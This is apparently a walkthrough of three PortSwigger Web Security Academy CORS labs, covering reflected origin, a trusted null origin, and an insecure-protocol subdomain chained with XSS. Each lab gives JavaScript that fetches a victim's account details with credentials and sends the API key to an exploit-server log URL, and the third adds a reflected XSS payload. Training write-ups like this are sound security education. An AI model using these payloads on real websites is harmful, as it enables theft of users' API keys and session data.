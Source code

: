 # CORS

### [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

Goal : craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.
- I saw this endpoint `/accountDetails` in the profile page source.

<img src=".\cors\1_1.png" style="zoom:80%;" />

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```javascript
  Origin: test.com
  ```

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.

<img src=".\cors\1_2.png" style="zoom:80%;" />

- In the browser, go to the exploit server and enter the following HTML

  ```javascript
  <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','<your-lab-url>/accountDetails',true);
  req.withCredentials = true;
  req.send();
  
  function reqListener() {
     location='<your-exploit-server>/log?key='+this.responseText;
  };
  
  </script>
  ```

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.

- Go back to the exploit server and click **Deliver exploit to victim**.

- Click **Access log**, retrieve and submit the victim's API key to complete the lab.

```json
{  "username": "administrator",  "email": "",  "apikey": "SaCAyGSHgJD1QifqVNXAKr82XZKAra7S",  "sessions": [    "zLW0oQ69tCRLl2Dw3ZOu34JMgMPRa10k"  ]}
```



---



### [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

Goal: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```json
  Origin: test.com
  ```

- notice that no thing happened with the `Access-Control-Allow-Origin` header. this means it performs whitelist checking on the provided origin

-  resubmit it with the null value `Origin: null`

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.

<img src=".\cors\2_1.png" style="zoom:80%;" />

- In the browser, go to the exploit server and enter the following HTML

  ```javascript
  <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','<your-lab-url>/accountDetails',true);
  req.withCredentials = true;
  req.send();
  
  function reqListener() {
  location='<your-exploit-server>/log?key='+this.responseText;
  };
  </script>"></iframe>
  ```

  >the exploit exists in  sandbox iframe to be sent from null origin

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
- Go back to the exploit server and click **Deliver exploit to victim**.
- Click **Access log**, retrieve and submit the victim's API key to complete the lab.



---





### [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)

Goal: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- log in and access your account page.

- go to `/accountDetails`, and the observe the `Access-Control-Allow-Credentials` header.

- Send the request to Burp Repeater, and resubmit it with the added header:

  ```json
  Origin: test.com 
  OR
  Origin: null
  ```

- notice that no thing happened with the `Access-Control-Allow-Origin` header. this means it performs whitelist checking on the provided origin

- go to any product and click `check stock` , note that it responds from a `stock` subdomain

- write this subdomain in the `Origin` header 

- Observe that the origin is reflected in the `Access-Control-Allow-Origin` header

<img src=".\cors\3_1.png" style="zoom:80%;" />





- now to exploit the CORS misconfiguration we need to find `XSS` in the stock subdomain or any other one

- Observe the two parameters in the stock subdomain , note that the  `productID` parameter is vulnerable to `XSS`
  ```bash
  http://stock.<your-lab-url>.web-security-academy.net/?productId=1%3cscript%3ealert(1)%3c%2fscript%3e2&storeId=2
  ```

  

<img src=".\cors\3_2.png" style="zoom:80%;" />



- now with `CORS+XSS` we can get the administrator api key by sending a request to the`stock` subdomain with the CORS exploit in the  `productID` parameter
-  go to the exploit server and enter the following HTML

```javascript
<script>
    document.location="http://stock.<your-lab-url>.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://.<your-lab-url>.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-<your-exploit-url>.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
- Go back to the exploit server and click **Deliver exploit to victim**.
- Click **Access log**, retrieve and submit the victim's API key to complete the lab.





---









